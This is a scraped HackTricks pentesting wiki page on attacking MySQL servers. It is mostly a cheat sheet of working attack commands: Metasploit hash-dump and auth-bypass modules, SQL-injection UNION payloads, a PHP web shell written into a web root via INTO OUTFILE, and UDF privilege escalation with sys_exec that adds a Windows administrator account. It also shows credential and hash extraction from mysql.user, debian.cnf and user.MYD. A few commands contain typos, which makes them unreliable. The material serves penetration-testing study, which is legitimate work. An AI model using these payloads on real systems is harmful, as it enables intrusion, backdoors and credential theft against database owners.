

3306 - Pentesting Mysql - HackTricks

[    HackTricks](https://book.hacktricks.xyz/)

[HackTricks](https://book.hacktricks.xyz/)
[Pentesting Methodology](https://book.hacktricks.xyz/pentesting-methodology)
[About the author](https://book.hacktricks.xyz/about-the-author)
[Exfiltration](https://book.hacktricks.xyz/exfiltration)

[Tunneling and Port Forwarding](https://book.hacktricks.xyz/tunneling-and-port-forwarding)

[Brute Force - CheatSheet](https://book.hacktricks.xyz/brute-force)
[Search Exploits](https://book.hacktricks.xyz/search-exploits)
Shells

[Shells (Linux, Windows, MSFVenom)](https://book.hacktricks.xyz/shells/shells)

Linux/Unix

[Checklist - Linux Privilege Escalation](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)

[Linux Privilege Escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation)

[Useful Linux Commands](https://book.hacktricks.xyz/linux-unix/useful-linux-commands)

[Linux Environment Variables](https://book.hacktricks.xyz/linux-unix/linux-environment-variables)

Windows

[Checklist - Local Windows Privilege Escalation](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)

[Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation)

[Active Directory Methodology](https://book.hacktricks.xyz/windows/active-directory-methodology)

[NTLM](https://book.hacktricks.xyz/windows/ntlm)

[Stealing Credentials](https://book.hacktricks.xyz/windows/stealing-credentials)

[Authentication, Credentials, Token privileges, UAC and EFS](https://book.hacktricks.xyz/windows/credentials)

[Basic CMD for Pentesters](https://book.hacktricks.xyz/windows/basic-cmd-for-pentesters)

[Basic PowerShell for Pentesters](https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters)

[AV Bypass](https://book.hacktricks.xyz/windows/av-bypass)
Mobile Apps Pentesting

[Android APK Checklist](https://book.hacktricks.xyz/mobile-apps-pentesting/android-checklist)

[Android Applications Pentesting](https://book.hacktricks.xyz/mobile-apps-pentesting/android-app-pentesting)

Pentesting

[Pentesting Network](https://book.hacktricks.xyz/pentesting/pentesting-network)

[Pentesting JDWP - Java Debug Wire Protocol](https://book.hacktricks.xyz/pentesting/pentesting-jdwp-java-debug-wire-protocol)

[Pentesting Printers](https://book.hacktricks.xyz/pentesting/pentesting-printers)

[7/tcp/udp - Pentesting Echo](https://book.hacktricks.xyz/pentesting/7-tcp-udp-pentesting-echo)

[21 - Pentesting FTP](https://book.hacktricks.xyz/pentesting/pentesting-ftp)

[22 - Pentesting SSH/SFTP](https://book.hacktricks.xyz/pentesting/pentesting-ssh)

[23 - Pentesting Telnet](https://book.hacktricks.xyz/pentesting/pentesting-telnet)

[25,465,587 - Pentesting SMTP/s](https://book.hacktricks.xyz/pentesting/pentesting-smtp)

[43 - Pentesting WHOIS](https://book.hacktricks.xyz/pentesting/43-pentesting-whois)

[53 - Pentesting DNS](https://book.hacktricks.xyz/pentesting/pentesting-dns)

[69/UDP TFTP/Bittorrent-tracker](https://book.hacktricks.xyz/pentesting/69-udp-tftp)

[79 - Pentesting Finger](https://book.hacktricks.xyz/pentesting/pentesting-finger)

[80,443 - Pentesting Web Methodology](https://book.hacktricks.xyz/pentesting/pentesting-web)

[88tcp/udp - Pentesting Kerberos](https://book.hacktricks.xyz/pentesting/pentesting-kerberos-88)

[110,995 - Pentesting POP](https://book.hacktricks.xyz/pentesting/pentesting-pop)

[111/TCP/UDP - Pentesting Portmapper](https://book.hacktricks.xyz/pentesting/pentesting-rpcbind)

[113 - Pentesting Ident](https://book.hacktricks.xyz/pentesting/113-pentesting-ident)

[123/udp - Pentesting NTP](https://book.hacktricks.xyz/pentesting/pentesting-ntp)

[135, 593 - Penstesting MSRPC](https://book.hacktricks.xyz/pentesting/135-penstesting-msrpc)

[137,138,139 - Pentesting NetBios](https://book.hacktricks.xyz/pentesting/137-138-139-pentesting-netbios)

[139,445 - Pentesting SMB](https://book.hacktricks.xyz/pentesting/pentesting-smb)

[143,993 - Pentesting IMAP](https://book.hacktricks.xyz/pentesting/pentesting-imap)

[161,162,10161,10162/udp - Pentesting SNMP](https://book.hacktricks.xyz/pentesting/pentesting-snmp)

[194,6667,6660-7000 - Pentesting IRC](https://book.hacktricks.xyz/pentesting/pentesting-irc)

[264 - Pentesting Check Point FireWall-1](https://book.hacktricks.xyz/pentesting/pentesting-264-check-point-firewall-1)

[389, 636, 3268, 3269 - Pentesting LDAP](https://book.hacktricks.xyz/pentesting/pentesting-ldap)

[500/udp - Pentesting IPsec/IKE VPN](https://book.hacktricks.xyz/pentesting/ipsec-ike-vpn-pentesting)

[502 - Pentesting Modbus](https://book.hacktricks.xyz/pentesting/pentesting-modbus)

[512 - Pentesting Rexec](https://book.hacktricks.xyz/pentesting/512-pentesting-rexec)

[513 - Pentesting Rlogin](https://book.hacktricks.xyz/pentesting/pentesting-rlogin)

[514 - Pentesting Rsh](https://book.hacktricks.xyz/pentesting/pentesting-rsh)

[515 - Pentesting Line Printer Daemon (LPD)](https://book.hacktricks.xyz/pentesting/515-pentesting-line-printer-daemon-lpd)

[548 - Pentesting Apple Filing Protocol (AFP)](https://book.hacktricks.xyz/pentesting/584-pentesting-afp)

[554,8554 - Pentesting RTSP](https://book.hacktricks.xyz/pentesting/554-8554-pentesting-rtsp)

[623/UDP/TCP - IPMI](https://book.hacktricks.xyz/pentesting/623-udp-ipmi)

[631 - Internet Printing Protocol(IPP)](https://book.hacktricks.xyz/pentesting/pentesting-631-internet-printing-protocol-ipp)

[873 - Pentesting Rsync](https://book.hacktricks.xyz/pentesting/873-pentesting-rsync)

[1026 - Pentesting Rusersd](https://book.hacktricks.xyz/pentesting/1026-pentesting-rusersd)

[1098/1099 - Pentesting Java RMI](https://book.hacktricks.xyz/pentesting/1099-pentesting-java-rmi)

[1433 - Pentesting MSSQL - Microsoft SQL Server](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)

[1521,1522-1529 - Pentesting Oracle TNS Listener](https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener)

[1723 - Pentesting PPTP](https://book.hacktricks.xyz/pentesting/1723-pentesting-pptp)

[1883 - Pentesting MQTT (Mosquitto)](https://book.hacktricks.xyz/pentesting/1883-pentesting-mqtt-mosquitto)

[2049 - Pentesting NFS Service](https://book.hacktricks.xyz/pentesting/nfs-service-pentesting)

[2301,2381 - Pentesting Compaq/HP Insight Manager](https://book.hacktricks.xyz/pentesting/pentesting-compaq-hp-insight-manager)

[3260 - Pentesting ISCSI](https://book.hacktricks.xyz/pentesting/3260-pentesting-iscsi)

[3299 - Pentesting SAPRouter](https://book.hacktricks.xyz/pentesting/3299-pentesting-saprouter)

[3306 - Pentesting Mysql](https://book.hacktricks.xyz/pentesting/pentesting-mysql)

[3389 - Pentesting RDP](https://book.hacktricks.xyz/pentesting/pentesting-rdp)

[3632 - Pentesting distcc](https://book.hacktricks.xyz/pentesting/3632-pentesting-distcc)

[4369 - Pentesting Erlang Port Mapper Daemon (epmd)](https://book.hacktricks.xyz/pentesting/4369-pentesting-erlang-port-mapper-daemon-epmd)

[5353/UDP Multicast DNS (mDNS)](https://book.hacktricks.xyz/pentesting/5353-udp-multicast-dns-mdns)

[5432,5433 - Pentesting Postgresql](https://book.hacktricks.xyz/pentesting/pentesting-postgresql)

[5671,5672 - Pentesting AMQP](https://book.hacktricks.xyz/pentesting/5671-5672-pentesting-amqp)

[5800,5801,5900,5901 - Pentesting VNC](https://book.hacktricks.xyz/pentesting/pentesting-vnc)

[5984,6984 - Pentesting CouchDB](https://book.hacktricks.xyz/pentesting/5984-pentesting-couchdb)

[5985,5986 - Pentesting WinRM](https://book.hacktricks.xyz/pentesting/5985-5986-pentesting-winrm)

[6000 - Pentesting X11](https://book.hacktricks.xyz/pentesting/6000-pentesting-x11)

[6379 - Pentesting Redis](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)

[8009 - Pentesting Apache JServ Protocol (AJP)](https://book.hacktricks.xyz/pentesting/8009-pentesting-apache-jserv-protocol-ajp)

[9042/9160 - Pentesting Cassandra](https://book.hacktricks.xyz/pentesting/cassandra)

[9100 - Pentesting Raw Printing (JetDirect, AppSocket, PDL-datastream)](https://book.hacktricks.xyz/pentesting/9100-pjl)

[9200 - Pentesting Elasticsearch](https://book.hacktricks.xyz/pentesting/9200-pentesting-elasticsearch)

[10000 - Pentesting Network Data Management Protocol (ndmp)](https://book.hacktricks.xyz/pentesting/10000-network-data-management-protocol-ndmp)

[11211 - Pentesting Memcache](https://book.hacktricks.xyz/pentesting/11211-memcache)

[15672 - Pentesting RabbitMQ Management](https://book.hacktricks.xyz/pentesting/15672-pentesting-rabbitmq-management)

[27017,27018 - Pentesting MongoDB](https://book.hacktricks.xyz/pentesting/27017-27018-mongodb)

[44818/UDP/TCP - Pentesting EthernetIP](https://book.hacktricks.xyz/pentesting/44818-ethernetip)

[47808/udp - Pentesting BACNet](https://book.hacktricks.xyz/pentesting/47808-udp-bacnet)

[50030,50060,50070,50075,50090 - Pentesting Hadoop](https://book.hacktricks.xyz/pentesting/50030-50060-50070-50075-50090-pentesting-hadoop)

Pentesting Web
[2FA Bypass](https://book.hacktricks.xyz/pentesting-web/2fa-bypass)

[Abusing hop-by-hop headers](https://book.hacktricks.xyz/pentesting-web/abusing-hop-by-hop-headers)

[Captcha Bypass](https://book.hacktricks.xyz/pentesting-web/captcha-bypass)

[Cache Poisoning and Cache Deception](https://book.hacktricks.xyz/pentesting-web/cache-deception)

[Clickjacking](https://book.hacktricks.xyz/pentesting-web/clickjacking)

[Client Side Template Injection (CSTI)](https://book.hacktricks.xyz/pentesting-web/client-side-template-injection-csti)

[Command Injection](https://book.hacktricks.xyz/pentesting-web/command-injection)

[Content Security Policy (CSP) Bypass](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass)

[Cookies Hacking](https://book.hacktricks.xyz/pentesting-web/hacking-with-cookies)

[CORS - Misconfigurations & Bypass](https://book.hacktricks.xyz/pentesting-web/cors-bypass)

[CRLF (%0D%0A) Injection](https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a)

[Cross-site WebSocket hijacking (CSWSH)](https://book.hacktricks.xyz/pentesting-web/cross-site-websocket-hijacking-cswsh)

[CSRF (Cross Site Request Forgery)](https://book.hacktricks.xyz/pentesting-web/csrf-cross-site-request-forgery)

[Dangling Markup - HTML scriptless injection](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection)

[Deserialization](https://book.hacktricks.xyz/pentesting-web/deserialization)

[Email Header Injection](https://book.hacktricks.xyz/pentesting-web/email-header-injection)

[File Inclusion/Path traversal](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

[File Upload](https://book.hacktricks.xyz/pentesting-web/file-upload)

[HTTP Request Smuggling / HTTP Desync Attack](https://book.hacktricks.xyz/pentesting-web/http-request-smuggling)

[IDOR](https://book.hacktricks.xyz/pentesting-web/idor)

[JWT Vulnerabilities (Json Web Tokens)](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens)

[NoSQL injection](https://book.hacktricks.xyz/pentesting-web/nosql-injection)
[LDAP Injection](https://book.hacktricks.xyz/pentesting-web/ldap-injection)

[OAuth to Account takeover](https://book.hacktricks.xyz/pentesting-web/oauth-to-account-takeover)

[Open Redirect](https://book.hacktricks.xyz/pentesting-web/open-redirect)
[Race Condition](https://book.hacktricks.xyz/pentesting-web/race-condition)

[Rate Limit Bypass](https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass)

[SQL Injection](https://book.hacktricks.xyz/pentesting-web/sql-injection)

[SSRF (Server Side Request Forgery)](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)

[SSTI (Server Side Template Injection)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

[Domain/Subdomain takeover](https://book.hacktricks.xyz/pentesting-web/domain-subdomain-takeover)

[Unicode Normalization vulnerability](https://book.hacktricks.xyz/pentesting-web/unicode-normalization-vulnerability)

[Web Tool - WFuzz](https://book.hacktricks.xyz/pentesting-web/web-tool-wfuzz)
[XPATH injection](https://book.hacktricks.xyz/pentesting-web/xpath-injection)

[XSLT Server Side Injection (Extensible Stylesheet Languaje Transformations)](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-languaje-transformations)

[XXE - XEE - XML External Entity](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)

[XSS (Cross Site Scripting)](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)

[XSSI (Cross-Site Script Inclusion)](https://book.hacktricks.xyz/pentesting-web/xssi-cross-site-script-inclusion)

[XS-Search](https://book.hacktricks.xyz/pentesting-web/xs-search)
Physical attacks

[Physical Attacks](https://book.hacktricks.xyz/physical-attacks/physical-attacks)

[Escaping from KIOSKs](https://book.hacktricks.xyz/physical-attacks/escaping-from-gui-applications)

Exploiting

[Linux Exploiting (Basic) (SPA)](https://book.hacktricks.xyz/exploiting/linux-exploiting-basic-esp)

[Exploiting Tools](https://book.hacktricks.xyz/exploiting/tools)

[Windows Exploiting (Basic Guide - OSCP lvl)](https://book.hacktricks.xyz/exploiting/windows-exploiting-basic-guide-oscp-lvl)

[Reversing](https://book.hacktricks.xyz/exploiting/reversing)
Forensics
[Malware Analysis](https://book.hacktricks.xyz/forensics/malware-analysis)

[Memory dump analysis](https://book.hacktricks.xyz/forensics/memory-dump-analysis)

[Pcaps analysis](https://book.hacktricks.xyz/forensics/pcaps-analysis)

[Volatility - Examples](https://book.hacktricks.xyz/forensics/volatility-examples)

[Basic Forensics (ESP)](https://book.hacktricks.xyz/forensics/basic-forensics-esp)

Crypto

[Electronic Code Book (ECB)](https://book.hacktricks.xyz/crypto/electronic-code-book-ecb)

[Cipher Block Chaining CBC-MAC](https://book.hacktricks.xyz/crypto/cipher-block-chaining-cbc-mac-priv)

[Padding Oracle](https://book.hacktricks.xyz/crypto/padding-oracle-priv)

[RC4 - Encrypt&Decrypt](https://book.hacktricks.xyz/crypto/rc4-encrypt-and-decrypt)

[Crypto CTFs Tricks](https://book.hacktricks.xyz/crypto/crypto-ctfs-tricks)
BACKDOORS
[Merlin](https://book.hacktricks.xyz/backdoors/merlin)
[Empire](https://book.hacktricks.xyz/backdoors/empire)
[Salseo](https://book.hacktricks.xyz/backdoors/salseo)
[ICMPsh](https://book.hacktricks.xyz/backdoors/icmpsh)
Stego
[Stego Tricks](https://book.hacktricks.xyz/stego/stego-tricks)
[Esoteric languages](https://book.hacktricks.xyz/stego/esoteric-languages)
MISC

[Basic Python](https://book.hacktricks.xyz/misc/basic-python)

[Other Big References](https://book.hacktricks.xyz/misc/references)
TODO
[More Tools](https://book.hacktricks.xyz/todo/more-tools)
[MISC](https://book.hacktricks.xyz/todo/misc)
[Pentesting DNS](https://book.hacktricks.xyz/todo/pentesting-dns)
[Burp Suite](https://book.hacktricks.xyz/burp-suite)
[Other Web Tricks](https://book.hacktricks.xyz/other-web-tricks)
[Interesting HTTP](https://book.hacktricks.xyz/interesting-http)
[Emails Vulnerabilities](https://book.hacktricks.xyz/emails-vulns)

[Bug Bounties Methodology](https://book.hacktricks.xyz/bug-bounties-methodology)

[Cloud security review](https://book.hacktricks.xyz/cloud-security-review)
[Android Forensics](https://book.hacktricks.xyz/android-forensics)
[TR-069](https://book.hacktricks.xyz/tr-069)

[6881/udp - Pentesting BitTorrent](https://book.hacktricks.xyz/6881-udp-pentesting-bittorrent)

[CTF Write-ups](https://book.hacktricks.xyz/ctf-write-ups)

[1911 - Pentesting fox](https://book.hacktricks.xyz/1911-pentesting-fox)

[Online Platforms with API](https://book.hacktricks.xyz/online-platforms-with-api)

[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='currentColor' viewBox='0 0 1067 769' xmlns='http://www.w3.org/2000/svg' stroke='none' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1612'%3e%3cg data-evernote-id='1613' class='js-evernote-checked'%3e%3cpath d='M480.026 640.677c17.205 0 31.2 13.997 31.2 31.194s-13.995 31.193-31.2 31.193c-17.197 0-31.193-13.996-31.193-31.193 0-17.197 13.996-31.194 31.193-31.194m489.93-193.226c-17.203 0-31.2-13.998-31.2-31.195 0-17.204 13.997-31.2 31.2-31.2 17.198 0 31.194 13.996 31.194 31.2 0 17.197-13.996 31.195-31.193 31.195m0-127.804c-53.269 0-96.609 43.34-96.609 96.609 0 10.373 1.723 20.702 5.123 30.741L559.328 616.879c-18.132-26.128-47.521-41.617-79.302-41.617-36.821 0-70.391 21.065-86.63 54.003L106.68 478.109c-30.288-15.927-52.965-65.817-50.56-111.223 1.248-23.687 9.438-42.071 21.897-49.17 7.916-4.493 17.436-4.099 27.526 1.188l1.916 1.01c75.96 40.022 324.6 170.981 335.063 175.844 16.157 7.47 25.14 10.5 52.659-2.547l513.958-267.3c7.53-2.844 16.315-10.062 16.315-21.023 0-15.205-15.72-21.199-15.765-21.199-29.218-14.018-74.163-35.054-117.987-55.57C798.033 84.26 691.861 34.547 645.23 10.132c-40.253-21.072-72.655-3.311-78.432.282l-11.227 5.555C345.727 119.743 64.898 258.826 48.911 268.553 20.278 285.973 2.547 320.679.252 363.768c-3.586 68.304 31.261 139.506 81.069 165.634l303.172 156.354c6.83 47.306 47.55 82.725 95.532 82.725 52.78 0 95.808-42.546 96.603-95.14L910.541 492.38c16.93 13.233 37.92 20.486 59.416 20.486 53.268 0 96.61-43.341 96.61-96.61s-43.342-96.61-96.61-96.61' fill-rule='evenodd' data-evernote-id='1614' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e) Powered by**GitBook**](https://www.gitbook.com/?utm_source=content&utm_medium=trademark&utm_campaign=hacktricks)

# 3306 - Pentesting Mysql

#

**Basic Information**

**MySQL** is a freely available open source Relational Database Management System (RDBMS) that uses Structured Query Language (**SQL**).****From [here](https://www.siteground.com/tutorials/php-mysql/mysql/).

**Default port: **3306

Copy

3306/tcp open mysql

#

**Connect**

##

**Local**

Copy

2mysql -u root # Connect to root without password
3mysql -u root -p # A password will be asked (check someone)

##

Remote

Copy

4mysql -h <Hostname> -u root
5mysql -h <Hostname> -u root@localhost

#

Enumeration

Some of the enumeration actions require valid credentials

Copy

6nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <IP>

7msf> use auxiliary/scanner/mysql/mysql_version
8msf> use uxiliary/scanner/mysql/mysql_authbypass_hashdump
9msf> use auxiliary/scanner/mysql/mysql_hashdump #Creds
10msf> use auxiliary/admin/mysql/mysql_enum #Creds
11msf> use auxiliary/scanner/mysql/mysql_schemadump #Creds

12msf> use exploit/windows/mysql/mysql_start_up #Execute commands Windows, Creds

##

**​**[**Brute force**](https://book.hacktricks.xyz/brute-force#mysql)​

#

Write any binary data

Copy

13CONVERT(unhex("6f6e2e786d6c55540900037748b75c7249b75"), BINARY)
14CONVERT(from_base64("aG9sYWFhCg=="), BINARY)

#

**Basic & interesting MySQL commands**

Copy

15show databases;
16use <database>;
17show tables;
18describe <table_name>;
19​

20select grantee, table_schema, privilege_type FROM schema_privileges;  #Exact privileges

21select user,file_priv from mysql.user where user='root';  #File privileges
22select version();  #version
23select @@version();  #version
24select user();  #User
25select database();  #database name
26​
27#Try to execute code
28select do_system('id');
29\! sh
30​
31#Basic MySQLi

32Union Select 1,2,3,4,group_concat(0x7c,table_name,0x7C) from information_schema.tables

33Union Select 1,2,3,4,column_name from information_schema.columns where table_name="<TABLE NAME>"

34​
35#Read & Write
36select load_file('/var/lib/mysql-files/key.txt');  #Read file

37select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/back.php'

38​
39#Try to change MySQL root password
40UPDATE mysql.user SET Password=PASSWORD('MyNewPass') WHERE User='root';

41UPDATE mysql.user SET authentication_string=PASSWORD('MyNewPass') WHERE User='root';

42FLUSH PRIVILEGES;
43quit;

Copy

mysql -u username -p < manycommands.sql #A file with all the commands you want to execute

#

MySQL arbitrary read file by client

Actually, when you try to **load data local into a table** the** content of a file** the MySQL or MariaDB server asks the **client to read it** and send the content. **Then, if you can tamper a mysql client to connect to your own MyQSL server, you can read arbitrary files.**Please notice that this is the behaviour using:

Copy

load data local infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';
(Notice the "local" word) Because without the "local" you can get:

Copy

46mysql> load data infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';

47​

48ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement

**Initial PoC: **[**https://github.com/allyshka/Rogue-MySql-Server**](https://github.com/allyshka/Rogue-MySql-Server)**In this paper you can see a complete description of the attack and even how to extend it to RCE: **[**https://paper.seebug.org/1113/**](https://paper.seebug.org/1113/)**Here you can find an overview of the attack: **[**http://russiansecurity.expert/2016/04/20/mysql-connect-file-read/**](http://russiansecurity.expert/2016/04/20/mysql-connect-file-read/)**​**

#

POST

##

Mysql User

It will be very interesting if mysql is running as **root**:

Copy

cat /etc/mysql/mysql.conf.d/mysqld.cnf |  grep -v "#"  |  grep  "user"

##

Privilege escalation

How to:

- Current Level of access
    - mysql>`select user(); `
    - mysql>`select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user where user='OUTPUT OF select user()'; `
- Access passwords
    - mysql> `use mysql `
    - mysql> `select user,password from user; `
- Create a new user and grant him privileges
    - mysql>`create user test identified by 'test'; `
    - mysql> `grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION; `
- Break into a shell
    - mysql> `\! cat /etc/passwd `
    - mysql> `\! bash `

##

Privilege Escalation via library

You can find **compiled versions **of this **libraries **in sqlmap: `locate lib_mysqludf_sys.so ` and `locate lib_mysqludf_sys.dll `Instead of `locate  `you can also use `whereis ` to search for this libraries inside the host.

###

Linux

Copy

50use mysql;
51create  table npn(line blob);
52insert  into npn values(load_file('/tmp/lib_mysqludf_sys.so'));
53select  *  from npn into  dumpfile  '/tmp/lib_mysqludf_sys.so';
54create  function sys_exec returns  integer  soname  'lib_mysqludf_sys.so';
55select sys_exec('id > /tmp/out.txt');

###

Windows

Copy

56USE mysql;
57CREATE  TABLE npn(line blob);
58INSERT  INTO npn values(load_files('C://temp//lib_mysqludf_sys.dll'));

59SELECT  *  FROM mysql.npn INTO  DUMPFILE  'c://windows//system32//lib_mysqludf_sys_32.dll';

60CREATE  FUNCTION sys_exec RETURNS  integer  SONAME  'lib_mysqludf_sys_32.dll';

61SELECT sys_exec("net user npn npn12345678 /add");
62SELECT sys_exec("net localgroup Administrators npn /add");

##

Extracting MySQL credentials from the database

Copy

63SELECT  User,Host,Password FROM mysql.user;
64SELECT  User,Host,authentication_string FROM mysql.user;

Copy

mysql -u root --password=<PASSWORD> -e "SELECT User,Host,authentication_string FROM mysql.user;"

##

Extracting MySQL credentials from files

Inside* /etc/mysql/debian.cnf* you can find the** plain-text password **of the user **debian-sys-maint**

Copy

cat /etc/mysql/debian.cnf
You can** use these credentials to login in the mysql database**.

Inside the file: */var/lib/mysql/mysql/user.MYD *you can find **all the hashes of the MySQL users** (the ones that you can extract from mysql.user inside the database)*.*

You can extract them doing:

Copy

grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD |  grep -v "mysql_native_password"

##

Enabling logging

You can enable logging of mysql queries inside `/etc/mysql/my.cnf ` uncommenting the following lines:

##

Useful files

Configuration Files

- windows

    -

        - config.ini
        - my.ini
            - windows\my.ini
            - winnt\my.ini
        - <InstDir>/mysql/data/
    - unix
        - my.cnf
            - /etc/my.cnf
            - /etc/mysql/my.cnf
            - /var/lib/mysql/my.cnf
            - ~/.my.cnf
            - /etc/my.cnf
- Command History
    - ~/.mysql.history
- Log Files
    - connections.log
    - update.log
    - common.log

[ Pentesting - Previous 3299 - Pentesting SAPRouter](https://book.hacktricks.xyz/pentesting/3299-pentesting-saprouter)[ Next - Pentesting  3389 - Pentesting RDP   ](https://book.hacktricks.xyz/pentesting/pentesting-rdp)

CPol
Last updated 3 weeks ago

 [![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='currentColor' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 438.549 438.549' stroke='none' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='3108'%3e%3cg data-evernote-id='3109' class='js-evernote-checked'%3e%3cpath d='M409.132 114.573c-19.608-33.596-46.205-60.194-79.798-79.8-33.598-19.607-70.277-29.408-110.063-29.408-39.781 0-76.472 9.804-110.063 29.408-33.596 19.605-60.192 46.204-79.8 79.8C9.803 148.168 0 184.854 0 224.63c0 47.78 13.94 90.745 41.827 128.906 27.884 38.164 63.906 64.572 108.063 79.227 5.14.954 8.945.283 11.419-1.996 2.475-2.282 3.711-5.14 3.711-8.562 0-.571-.049-5.708-.144-15.417a2549.81 2549.81 0 0 1-.144-25.406l-6.567 1.136c-4.187.767-9.469 1.092-15.846 1-6.374-.089-12.991-.757-19.842-1.999-6.854-1.231-13.229-4.086-19.13-8.559-5.898-4.473-10.085-10.328-12.56-17.556l-2.855-6.57c-1.903-4.374-4.899-9.233-8.992-14.559-4.093-5.331-8.232-8.945-12.419-10.848l-1.999-1.431c-1.332-.951-2.568-2.098-3.711-3.429-1.142-1.331-1.997-2.663-2.568-3.997-.572-1.335-.098-2.43 1.427-3.289 1.525-.859 4.281-1.276 8.28-1.276l5.708.853c3.807.763 8.516 3.042 14.133 6.851 5.614 3.806 10.229 8.754 13.846 14.842 4.38 7.806 9.657 13.754 15.846 17.847 6.184 4.093 12.419 6.136 18.699 6.136 6.28 0 11.704-.476 16.274-1.423 4.565-.952 8.848-2.383 12.847-4.285 1.713-12.758 6.377-22.559 13.988-29.41-10.848-1.14-20.601-2.857-29.264-5.14-8.658-2.286-17.605-5.996-26.835-11.14-9.235-5.137-16.896-11.516-22.985-19.126-6.09-7.614-11.088-17.61-14.987-29.979-3.901-12.374-5.852-26.648-5.852-42.826 0-23.035 7.52-42.637 22.557-58.817-7.044-17.318-6.379-36.732 1.997-58.24 5.52-1.715 13.706-.428 24.554 3.853 10.85 4.283 18.794 7.952 23.84 10.994 5.046 3.041 9.089 5.618 12.135 7.708 17.705-4.947 35.976-7.421 54.818-7.421s37.117 2.474 54.823 7.421l10.849-6.849c7.419-4.57 16.18-8.758 26.262-12.565 10.088-3.805 17.802-4.853 23.134-3.138 8.562 21.509 9.325 40.922 2.279 58.24 15.036 16.18 22.559 35.787 22.559 58.817 0 16.178-1.958 30.497-5.853 42.966-3.9 12.471-8.941 22.457-15.125 29.979-6.191 7.521-13.901 13.85-23.131 18.986-9.232 5.14-18.182 8.85-26.84 11.136-8.662 2.286-18.415 4.004-29.263 5.146 9.894 8.562 14.842 22.077 14.842 40.539v60.237c0 3.422 1.19 6.279 3.572 8.562 2.379 2.279 6.136 2.95 11.276 1.995 44.163-14.653 80.185-41.062 108.068-79.226 27.88-38.161 41.825-81.126 41.825-128.906-.01-39.771-9.818-76.454-29.414-110.049z' data-evernote-id='3110' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e) Edit on GitHub](https://github.com/carlospolop/hacktricks/blob/master/pentesting/pentesting-mysql.md)

Contents

[Basic Information](https://book.hacktricks.xyz/pentesting/pentesting-mysql#basic-information)[Connect](https://book.hacktricks.xyz/pentesting/pentesting-mysql#connect)[Local](https://book.hacktricks.xyz/pentesting/pentesting-mysql#local)[Remote](https://book.hacktricks.xyz/pentesting/pentesting-mysql#remote)[Enumeration](https://book.hacktricks.xyz/pentesting/pentesting-mysql#enumeration)[Brute force](https://book.hacktricks.xyz/pentesting/pentesting-mysql#brute-force)[Write any binary data](https://book.hacktricks.xyz/pentesting/pentesting-mysql#write-any-binary-data)[Basic & interesting MySQL commands](https://book.hacktricks.xyz/pentesting/pentesting-mysql#basic-and-interesting-mysql-commands)[MySQL arbitrary read file by client](https://book.hacktricks.xyz/pentesting/pentesting-mysql#mysql-arbitrary-read-file-by-client)[POST](https://book.hacktricks.xyz/pentesting/pentesting-mysql#post)[Mysql User](https://book.hacktricks.xyz/pentesting/pentesting-mysql#mysql-user)[Privilege escalation](https://book.hacktricks.xyz/pentesting/pentesting-mysql#privilege-escalation)[Privilege Escalation via library](https://book.hacktricks.xyz/pentesting/pentesting-mysql#privilege-escalation-via-library)[Extracting MySQL credentials from the database](https://book.hacktricks.xyz/pentesting/pentesting-mysql#extracting-mysql-credentials-from-the-database)[Extracting MySQL credentials from files](https://book.hacktricks.xyz/pentesting/pentesting-mysql#extracting-mysql-credentials-from-files)[Enabling logging](https://book.hacktricks.xyz/pentesting/pentesting-mysql#enabling-logging)[Useful files](https://book.hacktricks.xyz/pentesting/pentesting-mysql#useful-files)